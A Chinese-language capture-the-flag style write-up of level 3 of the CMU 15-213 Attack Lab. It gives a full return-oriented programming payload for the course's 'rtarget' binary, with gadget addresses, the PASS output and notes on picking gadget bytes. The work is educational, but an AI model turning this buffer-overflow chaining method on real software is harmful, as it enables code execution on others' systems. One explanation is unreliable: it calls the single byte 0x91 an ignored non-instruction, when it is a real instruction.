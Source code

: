 其中需要注意的细节就是q和l后缀，rsp地址是64位的必须要用movq，而偏移量显然可以用32位传递，于是拓展到movl。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 40个空白字符 */
06 1a 40 00 00 00 00 00 /* mov rsp rax */
c5 19 40 00 00 00 00 00 /* mov rax rdi 4019c3+2 */
ab 19 40 00 00 00 00 00 /* pop rax */
48 00 00 00 00 00 00 00 /* 偏移72=0x48 */
dd 19 40 00 00 00 00 00 /* mov eax edx 89 c2 4019db+2 */
70 1a 40 00 00 00 00 00 /* mov edx ecx 89 d1 401a6e+2 */
63 1a 40 00 00 00 00 00 /* mov ecx esi 89 ce 401a61+2 */
d6 19 40 00 00 00 00 00 /* lea (rdi, rsi, 1) rax 4019d6 */
c5 19 40 00 00 00 00 00 /* mov rax rdi */
fa 18 40 00 00 00 00 00 /* touch3入口 4018fa */
35 39 62 39 39 37 66 61 /* 字符串，注意用00结尾 */
00
```

```
[root@MiWiFi-R4A-srv target1]# ./hex2raw < rtarget.l5.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 63 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

注意：

1.0x90对应于”no op“操作，所以如果我们看到这样的汇编码，又想调用”89 ce“时放心使用即可。

```
0000000000401a11 <addval_436>:
  401a11:  8d 87 89 ce 90 90      lea    -0x6f6f3177(%rdi),%eax
  401a17:  c3                     retq
```

2.0xc3对应返回值之前有讲过

3.单个字节不被看作操作，会被自动忽略，比如下面的代码，我们想要”89 d1“，由于和”c3“只间隔一个字节，中间的”91“会被忽略，即可以截取该代码段运行。

```
0000000000401a6e <setval_167>:
  401a6e:  c7 07 89 d1 91 c3      movl   $0xc391d189,(%rdi)
  401a74:  c3                     retq
```
